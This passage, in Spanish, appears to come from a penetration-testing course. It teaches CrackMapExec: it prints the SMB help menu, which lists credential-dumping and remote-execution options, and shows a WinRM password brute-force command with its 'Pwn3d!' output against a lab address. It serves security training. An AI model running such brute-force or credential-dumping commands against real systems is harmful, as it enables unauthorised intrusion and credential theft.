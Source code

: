 ### Ayuda Específica de Protocolos en CrackMapExec

Nota que podemos especificar un protocolo específico y recibir un menú de ayuda más detallado con todas las opciones disponibles para nosotros. CrackMapExec actualmente admite autenticación remota utilizando **MSSQL**, **SMB**, **SSH** y **WinRM**.

```bash
sherlock28@htb[/htb]$ crackmapexec smb -h

usage: crackmapexec smb [-h] [-id CRED_ID [CRED_ID ...]] [-u USERNAME [USERNAME ...]] [-p PASSWORD [PASSWORD ...]]
                        [-k] [--aesKey] [--kdcHost] [--gfail-limit LIMIT | --ufail-limit LIMIT | --fail-limit LIMIT]
                        [-M MODULE] [-o MODULE_OPTION [MODULE_OPTION ...]] [-L] [--options] [--server {http,https}]
                        [--server-host HOST] [--server-port PORT] [-H HASH [HASH ...]] [--no-bruteforce]
                        [-d DOMAIN | --local-auth] [--port {139,445}] [--share SHARE] [--gen-relay-list OUTPUT_FILE]
                        [--continue-on-success] [--sam | --lsa | --ntds [{drsuapi,vss}]] [--shares] [--sessions]
                        [--disks] [--loggedon-users] [--users [USER]] [--groups [GROUP]] [--local-groups [GROUP]]
                        [--pass-pol] [--rid-brute [MAX_RID]] [--wmi QUERY] [--wmi-namespace NAMESPACE]
                        [--spider SHARE] [--spider-folder FOLDER] [--content] [--exclude-dirs DIR_LIST]
                        [--pattern PATTERN [PATTERN ...] | --regex REGEX [REGEX ...]] [--depth DEPTH] [--only-files]
                        [--put-file FILE FILE] [--get-file FILE FILE]
                        [--exec-method {atexec,wmiexec,smbexec,mmcexec}] [--force-ps32] [--no-output]
                        [-x COMMAND | -X PS_COMMAND] [--obfs] [--clear-obfscripts]
                        [target ...]
```

### Uso de CrackMapExec

El formato general para utilizar CrackMapExec es el siguiente:

```bash
sherlock28@htb[/htb]$ crackmapexec <proto> <target-IP> -u <user or userlist> -p <password or passwordlist>
```

```bash
sherlock28@htb[/htb]$ crackmapexec winrm 10.129.42.197 -u user.list -p password.list

WINRM       10.129.42.197   5985   NONE             [*] None (name:10.129.42.197) (domain:None)
WINRM       10.129.42.197   5985   NONE             [*] http://10.129.42.197:5985/wsman
WINRM       10.129.42.197   5985   NONE             [+] None\user:password (Pwn3d!)
```

La aparición de **(Pwn3d!)** es la señal de que probablemente podemos ejecutar comandos del sistema si iniciamos sesión con el usuario obtenido mediante fuerza bruta. Otra herramienta útil que podemos utilizar para comunicarnos con el servicio WinRM es **Evil-WinRM**, que nos permite comunicarnos con el servicio WinRM de manera eficiente.
